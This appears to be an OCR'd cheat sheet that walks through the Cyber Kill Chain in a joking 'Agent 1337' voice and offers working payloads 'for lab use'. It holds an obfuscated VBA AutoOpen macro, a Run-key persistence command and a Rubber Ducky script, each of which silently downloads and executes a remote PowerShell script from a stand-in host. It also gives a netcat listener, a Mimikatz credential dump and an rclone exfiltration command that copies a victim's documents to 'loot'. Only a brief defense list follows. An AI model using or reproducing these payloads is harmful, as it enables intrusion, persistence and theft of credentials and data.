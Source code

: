 Cyber Kill Chain – Operation: PWN EVERYTHING
Presented by: Agent 1337, InfoSec's slickest field operative
Includes working payload code samples for lab use.

1. Reconnaissance – “The Creeper’s Crawl”
Mission	Know thy target.
Tactics	- Passive: Google dorking, LinkedIn stalking, Shodan scans
- Active: Phishing domain lookups, WHOIS scraping
Payloads	N/A (no code dropped here — just info slurped)
Tip	Try using “theHarvester” and see what emails and domains fall out like candy from a piñata.

2. Weaponization – “Crafting the Digital Dagger”
Mission	Combine malware with a delivery vehicle.
Tactics	- Malicious PDFs/Excels
- Bind reverse shell to installer
Payloads	- Meterpreter in a CV-laced PDF
- Emotet in invoice-themed Word doc
- PowerShell Empire script
It’s like putting a snake in a birthday cake. Only less festive. And more... root access.
Sample Code	Sub AutoOpen()
    Dim p1 As String, p2 As String, p3 As String
    p1 = "pow"
    p2 = "ers"
    p3 = "hell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"
    Dim fullCmd As String
    fullCmd = p1 & p2 & p3
    Shell fullCmd, vbHide
End Sub

3. Delivery – “The Trojan Horse Uber Eats Edition”
Mission	Get the payload to the victim.
Tactics	- Phishing emails
- Drive-by downloads
- USB drops
Payloads	- Malicious login links
- MalDoc macro
- Rubber Ducky USB scripts
Tip	Can you spot the phishing email before HR opens it?

4. Exploitation – “The Big Bang”
Mission	Trigger the payload to breach the system.
Tactics	- Macros
- Zero-day exploits
- JavaScript payloads
Payloads	- CVE-2021-40444
- Log4Shell
- Cobalt Strike beacon
Tip	User: “Why is my screen flickering?”
Attacker: “That’s just... your new dark mode.”

5. Installation – “Staying for Dinner”
Mission	Set up shop.
Tactics	- Backdoors
- Registry run keys
- RATs
Payloads	- NanoCore
- Cobalt Strike
- Encoded PowerShell in scheduled task
Tip	Always check your startup programs.
Sample Code	Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"


6. Command and Control (C2) – “Hello from the Other Side”
Mission	Maintain remote access and issue commands.
Tactics	- HTTPS
- DNS tunneling
- Cloud-based C2
Payloads	- Metasploit beacon
- Sliver C2
- Discord bot
Tip	Try setting up a simulated C2 in a lab.
Sample Code	# Netcat listener
nc -lvnp 443

# Python HTTP server
python3 -m http.server 80

7. Actions on Objectives – “Data, Gold, and Glory”
Mission	Exfiltrate, destroy, encrypt, or spy.
Tactics	- Data exfil
- Ransomware
- Credential harvesting
Payloads	- Rclone
- LockBit/BlackCat
- Mimikatz
Tip	If you hear ‘your files have been encrypted,’ the party’s over.
Sample Code	# Mimikatz
sekurlsa::logonpasswords

# Rclone exfil
rclone copy C:\Users\victim\Documents remote:loot --config rclone.conf

Bonus Level: DEFENSE MODE – Your Counterplay
Defense Tactics	Recon: Monitor open-source mentions
Delivery: Email filtering + awareness
Exploit/Install: EDR + patching
C2: Detect beaconing patterns
Objectives: DLP, SIEM alerts, segmentation

Bonus Payload – Rubber Ducky Ninja Moves
Ducky Script	DELAY 1000
GUI r
DELAY 500
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"
ENTER
shell.ps1	Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"





